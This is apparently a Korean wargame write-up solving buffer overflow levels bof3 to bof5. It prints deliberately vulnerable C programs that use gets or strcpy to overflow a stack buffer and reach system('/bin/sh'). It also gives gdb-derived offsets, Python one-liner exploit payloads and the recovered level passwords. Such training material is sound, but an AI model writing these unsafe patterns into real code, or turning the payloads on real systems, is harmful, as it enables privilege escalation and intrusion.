


#  bof3

<details>
<summary> bof3.c </summary>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF
// EXPLOIT $ (python -c "print 'x'*140+'a\x00\x00\x00'";cat) | ./bof3

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(1004, 1004)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1004, 1004)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```
</details>

bof3.c를 확인해 보면 main에서 vuln()을 실행시키는 것과, vuln()에서 gets로 입력을 받아 buf에 저장하는 것을 확인할 수 있다. 그리고 innocent와 KEY를 비교하여 값이 같다면 system()을 실행시킨다.

따라서 gets는 버퍼오버플로우에 취약한 함수이므로 버퍼오버플로우를 이용하여 innocent에 KEY값과 같은 값으로 덮어씌어 보자.

일단 gdb를 통해 buf의 주소값이 0x00007fffffffe440인 것을 확인 할 수 있다.(call gets실행 후 rax값)

 

그리고 cmp하는 부분에서 innocent의 주소값을 확인할 수 있다.



rbp-4의 주소값은 0x7fffffffe4cc이 나왔고 두 주소값의 차이는 140이다.

따라서 140만큼의 크기만큼 입력을 하고 KEY값인 a를 입력을 해주면 된다. 이때 리틀앤디언이기 때문에 00000061을 만들기 위해서 61 00 00 00으로 입력을 해주면 된다. 

```
python -c "print 'x'*140+'a\x00\x00\x00'";cat) | ./bof3
```
이렇게 입력을 해서 cat bof4.pw을 한 결과 43b07fce가 나왔다.


# bof4


<details>
<summary> bof4.c </summary>

```c
// AFTER => bof3.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define R "\033[31m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF
// EXPLOIT $ ./bof4 `python -c "print 'x'*140'+\x78\x56\x34\x12'"`

void vuln(char * arg) {
    int innocent;
    char buf[BUF_SIZE];

    strcpy(buf, arg);
    printf("Hello %s!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1005, 1005)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1005, 1005)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(int argc, char *argv[]){
    if (argc < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(argv[1]);
    return 0;
}
```
</details>

bof4 같은 경우 main함수에서 인자를 받아서 vuln으로 전달하는 것을 확인 할 수 있다.

vuln함수에서는 인자값을 strcpy함수를 이용해 buf로 복사하는 것을 확인 할 수 있다. 그러면 bof3과 비슷하게 진행이 될 것 같다.

gdb로 확인한 결과 buf의 주소값은 0x00007fffffffe420이고 innocent의 주고값은 0x7fffffffe4ac이다. 그 차이값은 140으로 동일하다.

```
./bof4 `python -c "print 'x'*140'+\x78\x56\x34\x12'"`
```
백쿼터(`)같은 경우 백쿼터사이의 명령의 결과를 변수로 만들어 준다.

이후 cat bof5.pw를 한 결과 b9947d7c가 나왔다.

# bof5


<details>
<summary> bof5.c </summary>

```c
// AFTER => bof4.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF
// EXPLOIT $ (python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</details>

전체적으로 bof2와 비슷하다. 다른 점은 system(buf)이 부분이 다르다는 것을 확인 할 수 있다.

일단 bof2, 3, 4와 마찬가지로 buf와 innocentf의 거리를 구하면 140이 나온다.    
buf의 주소값  : 0x00007fffffffe440   
innocent의 주소값 : 0x7fffffffe4cc

버퍼오버플로우를 이용하여 innocent와 KEY값을 동일하게 만들어 주면 system(buf)를 실행시킬 수 있다. 그럼 buf값에 /bin/sh의 값이 들어있다면 쉘을 실행 시킬수 있다.

```
(python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```
위와 같이 입력을 하는 이유는 /bin/sh\x00의 총 8개이므로 나머지 132개만큼 문자로 채우고 KEY값을 입력하여 innocent에 덮어 씌운다. 이때 x00 널값을 통해서 system()을 했을 경우 /bin/sh이후의 값은 참조하지 못하도록 한다.

cat bof6.pw의 결과는 62adb7bb이다.